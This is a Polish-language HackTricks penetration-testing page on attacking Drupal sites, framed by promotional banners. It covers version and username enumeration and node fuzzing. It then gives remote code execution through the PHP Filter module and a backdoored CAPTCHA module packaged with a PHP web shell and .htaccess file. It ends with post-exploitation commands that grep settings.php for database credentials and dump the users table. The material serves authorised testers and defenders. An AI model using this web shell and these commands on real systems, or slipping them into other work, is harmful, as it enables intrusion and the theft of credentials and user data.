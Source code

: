# Drupal

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Odkrywanie

* Sprawdź **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Węzeł**: Drupal **indeksuje swoje treści za pomocą węzłów**. Węzeł może **przechowywać wszystko**, takie jak wpis na blogu, ankieta, artykuł, itp. URI strony mają zazwyczaj formę `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Wyliczanie

Drupal obsługuje **trzy rodzaje użytkowników** domyślnie:

1. **`Administrator`**: Ten użytkownik ma pełną kontrolę nad stroną internetową Drupal.
2. **`Użytkownik uwierzytelniony`**: Ci użytkownicy mogą zalogować się na stronie i wykonywać operacje, takie jak dodawanie i edytowanie artykułów, w zależności od ich uprawnień.
3. **`Anonimowy`**: Wszyscy odwiedzający stronę są oznaczeni jako anonimowi. Domyślnie tym użytkownikom wolno tylko czytać posty.

### Wersja

* Sprawdź `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Nowe instalacje Drupal domyślnie blokują dostęp do plików `CHANGELOG.txt` i `README.txt`.
{% endhint %}

### Wyliczanie nazwy użytkownika

#### Rejestracja

W _/user/register_ spróbuj utworzyć nazwę użytkownika, a jeśli nazwa jest już zajęta, zostaniesz poinformowany:

![](<../../.gitbook/assets/image (325).png>)

#### Żądanie nowego hasła

Jeśli żądasz nowego hasła dla istniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (900).png>)

Jeśli żądasz nowego hasła dla nieistniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (304).png>)

### Pobierz liczbę użytkowników

Odwiedzając _/user/\<number>_ możesz zobaczyć liczbę istniejących użytkowników, w tym przypadku jest 2, ponieważ _/users/3_ zwraca błąd not found:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Ukryte strony

**Fuzz `/node/$`, gdzie `$` to liczba** (od 1 do 500 na przykład).\
Możesz znaleźć **ukryte strony** (testowe, deweloperskie), które nie są indeksowane przez wyszukiwarki.

#### Informacje o zainstalowanych modułach
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatyczne
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Z modułem PHP Filter

{% hint style="warning" %}
W starszych wersjach Drupal **(przed wersją 8)** było możliwe zalogowanie się jako administrator i **włączenie modułu `PHP filter`**, który "Umożliwia ocenianie osadzonego kodu PHP/skrótów."
{% endhint %}

Musisz mieć zainstalowany **plugin php** (sprawdź to przechodząc do _/modules/php_ i jeśli zwraca **403**, to **istnieje**, jeśli **nie znaleziono**, to **plugin php nie jest zainstalowany**)

Przejdź do _Modules_ -> (**Sprawdź**) _PHP Filter_ -> _Zapisz konfigurację_

![](<../../.gitbook/assets/image (247) (1).png>)

Następnie kliknij _Dodaj zawartość_ -> Wybierz _Podstawowa strona_ lub _Artykuł_ -> Napisz _kod powłoki php w treści_ -> Wybierz _Kod PHP_ w _Format tekstu_ -> Wybierz _Podgląd_

![](<../../.gitbook/assets/image (335).png>)

Na koniec po prostu przejdź do nowo utworzonego węzła:
```bash
curl http://drupal-site.local/node/3
```
### Zainstaluj moduł PHP Filter

Od wersji **8 i nowszych**, [**moduł PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **nie jest instalowany domyślnie**. Aby skorzystać z tej funkcjonalności, musimy **zainstalować moduł samodzielnie**.

1. Pobierz najnowszą wersję modułu ze strony internetowej Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Po pobraniu przejdź do **`Administracja`** > **`Raporty`** > **`Dostępne aktualizacje`**.
3. Kliknij **`Przeglądaj`**, wybierz plik z katalogu, do którego go pobraliśmy, a następnie kliknij **`Zainstaluj`**.
4. Po zainstalowaniu modułu możemy kliknąć **`Zawartość`** i **utworzyć nową podstawową stronę**, podobnie jak w przykładzie dla Drupal 7. Ponownie upewnij się, że **wybrano `Kod PHP` z rozwijanej listy `Format tekstu`**.

### Moduł z tylnymi drzwiami

Moduł z tylnymi drzwiami można stworzyć poprzez **dodanie powłoki do istniejącego modułu**. Moduły można znaleźć na stronie drupal.org. Wybierzmy moduł, na przykład [CAPTCHA](https://www.drupal.org/project/captcha). Przewiń w dół i skopiuj link do archiwum [tar.gz](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pobierz archiwum i wypakuj jego zawartość.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Utwórz **PHP web shell** o następującej zawartości:
```php
<?php
system($_GET["cmd"]);
?>
```
* Następnie musimy utworzyć plik **`.htaccess`**, aby uzyskać dostęp do folderu. Jest to konieczne, ponieważ Drupal odmawia bezpośredniego dostępu do folderu **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Konfiguracja powyżej będzie stosować reguły dla folderu /, gdy żądamy pliku w /modules. Skopiuj oba te pliki do folderu captcha i utwórz archiwum.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Zakładając, że mamy **dostęp administracyjny** do strony internetowej, kliknij **`Zarządzaj`**, a następnie **`Rozszerzenia`** w pasku bocznym. Następnie kliknij przycisk **`+ Zainstaluj nowy moduł`**, i zostaniemy przeniesieni do strony instalacji, takiej jak `http://drupal-site.local/admin/modules/install`. Przejdź do zainfekowanego archiwum Captcha i kliknij **`Zainstaluj`**.
* Po udanej instalacji, przejdź do **`/modules/captcha/shell.php`** aby wykonać polecenia.

## Po Wykorzystaniu

### Odczytaj settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Wyciek użytkowników z bazy danych
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Odnośniki

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
